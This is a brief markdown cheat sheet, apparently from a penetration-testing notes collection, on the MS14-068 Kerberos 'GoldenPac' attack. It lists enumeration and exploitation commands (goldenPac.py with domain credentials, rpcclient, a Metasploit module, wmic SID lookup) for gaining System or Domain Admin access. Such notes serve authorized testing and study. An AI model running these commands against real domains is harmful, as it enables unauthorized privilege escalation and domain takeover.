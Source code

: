 # GoldenPac MS14-068

## Enumeration

 - FindSMB2UPTime.py IP

## Exploitation

 - goldenPac.py -dc-ip DC_IP DOMAIN/USER:'PASSWORD'@TARGET

### OR

 - rpcclient $> lookupnames NAME

 - auxiliary/admin/kerberos/ms14_068_kerberos_checksum (Metaploit)

 - wmic useraccount get name,sid

### With this attack, you Pass the Ticket to System/Admin or Domain Admin acces
